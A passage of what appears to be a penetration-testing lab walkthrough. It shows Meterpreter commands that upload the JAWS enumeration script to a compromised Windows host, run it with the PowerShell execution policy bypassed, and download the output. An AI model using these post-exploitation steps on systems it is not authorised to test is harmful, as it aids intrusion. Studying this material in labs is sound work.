

- Back into the `MSFconsole` session, copy the **`jaws-enum.ps1`** file into the `C:\temp` target directory 

```bash
session 1
cd C:\\
mkdir Temp
cd Temp
upload /root/Desktop/jaws-enum.ps1
shell
```

- Run **`jaws-enum.ps1`** and output the results in a file

```bash
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename Jaws-Enum.txt
```



```bash
# Back into the Meterpreter session
download Jaws-Enum.txt
```


------

